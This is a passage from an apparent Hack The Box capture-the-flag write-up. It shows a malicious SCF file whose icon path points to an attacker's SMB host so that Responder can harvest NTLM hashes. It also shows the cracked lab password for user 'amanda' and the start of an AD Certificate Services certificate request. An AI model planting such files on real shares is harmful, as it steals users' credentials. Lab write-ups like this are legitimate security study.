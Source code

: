 Since the other enumeration didn't yield tangible results, perhaps we can launch a client-side attack using Shell Command File (SCF) to harvest SMB credentials in the form of NTLM hashes. Even if a file share doesn’t contain any data that could be used to connect to other systems, and it's configured with write permissions for unauthenticated users, then it is possible to obtain passwords hashes with a malicious SCF file like this.

<div class="filename"><span>1.scf</span></div>

```
[Shell]
Command=2
IconFile=\\10.10.12.129\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Before we put the file to the file share, let's start Responder.


{% include image.html image_alt="11901669.png" image_src="/b38cedee-7fd7-4dd6-9895-161ae2f6885d/11901669.png" %}


Almost immediately after I put `1.scf` to `\Users\Public`, I got the hash of `amanda`.


{% include image.html image_alt="e3d5fb91.png" image_src="/b38cedee-7fd7-4dd6-9895-161ae2f6885d/e3d5fb91.png" %}


Sending the hash to John the Ripper reveals the password of `amanda` to be `Ashare1972`.

Armed with the credential (`amanda:Ashare1972`), I can now access Microsoft Active Directory Certificate Services.

### Microsoft Active Directory Certificate Services

Here's how it looks like.


{% include image.html image_alt="a809c79d.png" image_src="/b38cedee-7fd7-4dd6-9895-161ae2f6885d/a809c79d.png" %}


Request for a user certificate.


{% include image.html image_alt="fb10e96a.png" image_src="/b38cedee-7fd7-4dd6-9895-161ae2f6885d/fb10e96a.png" %}


Install the user certificate.


{% include image.html image_alt="e350506f.png" image_src="/b38cedee-7fd7-4dd6-9895-161ae2f6885d/e350506f.png" %}


Once you click **Install this certificate**, your browser's personal certificate should look like this.


{% include image.html image_alt="5ce2c26f.png" image_src="/b38cedee-7fd7-4dd6-9895-161ae2f6885d/5ce2c26f.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/169
[2]: https://www.hackthebox.eu/home/users/profile/709
[3]: https://www.hackthebox.eu/home/users/profile/2984
[4]: https://www.hackthebox.eu/